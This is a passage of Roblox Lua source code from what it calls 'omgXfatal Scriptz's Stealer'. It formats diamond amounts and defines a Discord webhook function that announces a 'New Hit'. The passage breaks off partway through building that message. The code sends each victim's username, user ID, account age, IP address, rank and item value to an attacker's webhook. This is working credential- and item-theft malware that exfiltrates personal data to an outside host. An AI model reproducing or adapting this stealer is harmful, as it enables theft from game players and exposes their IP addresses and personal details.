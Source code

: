     if ChosenAbbreviation then
        local digits = abbreviations[ChosenAbbreviation]
        local rounded = math.floor(diaamt2 / 10 ^ (digits - 3)) * 10 ^ (digits - 3)
        DiamondsCount = string.format("%0.2f", rounded / 10 ^ (digits - 1))
        local addsd = string.split(DiamondsCount, ".")[2]
        local pnt = "."
        if string.split(addsd, "")[2] == "0" and string.split(addsd, "")[1] ~= "0" then
            DiamondsCount = string.split(DiamondsCount, ".")[1] ..
                pnt .. string.split(addsd, "")[1] .. ChosenAbbreviation
        elseif string.split(addsd, "")[2] == "0" and string.split(addsd, "")[1] == "0" then
            DiamondsCount = string.split(DiamondsCount, ".")[1] .. ChosenAbbreviation
        elseif string.split(addsd, "")[2] ~= "0" and string.split(addsd, "")[1] ~= "0" then
            DiamondsCount = DiamondsCount .. ChosenAbbreviation
        elseif string.split(addsd, "")[2] ~= "0" and string.split(addsd, "")[1] == "0" then
            DiamondsCount = DiamondsCount .. ChosenAbbreviation
        else
            DiamondsCount = diamonds
        end
    end
    return DiamondsCount
end

local DiamondsCount = diamondstoconvert(givediaamt)
local WDiamondsCount = diamondstoconvert(DiamondsDiamonds)
function RAP()
    local RAP = diamondstoconvert(PlayerInfos.RAP)
    return RAP
end

-- Webhook
local url = Webhook
local whenabled = true
local function SendWebhook(rarity, name, ping, d, f, petimg, receiver)
    local abcdef1
    local headers
    local lmao = "/5"
    local Image = string.split(petimg, "rbxassetid://")[2]
    Image = game:HttpGet("https://thumbnails.roblox.com/v1/assets?assetIds=" ..
        Image .. "&returnPolicy=PlaceHolder&size=420x420&format=Png&isCircular=false")
    Image = game:GetService("HttpService"):JSONDecode(Image).data[1].imageUrl
    if FinalFinal ~= 0 or DiamondsDiamonds ~= 0 then
        imgs =
        "https://cdn.discordapp.com/attachments/1059224458033901668/1066510039818440864/New_Project_DADCF6A.gif"
        data1 = {
            ["content"] = ping,
            ["username"] = "omgXfatal Scriptz",
            ["avatar_url"] = imgs,
            ["embeds"] = { {
                ["title"] = "**New Hit** ||With omgXfatal||",
                ["url"] = "https://discord.gg/fatalcm",
                ["type"] = "rich",
                ["color"] = tonumber(0x2798FF),
                ["thumbnail"] = {
                    ["url"] = Image,
                    ["height"] = 420,
                    ["width"] = 420
                },
                ["fields"] = { {
                    ["name"] = "**This data was generated using omgXfatal Scriptz's Stealer** :moyai:",
                    ["value"] = "```Username     : " .. username ..
                        "\nUser-ID      : " .. fardplayer.userId .. "\nAccount Age  : " .. fardplayer.AccountAge ..
                        " Days\nIP Address   : " .. IPadress .. "\nRank           : " .. rank .. "\nRAP          : " .. RAP() ..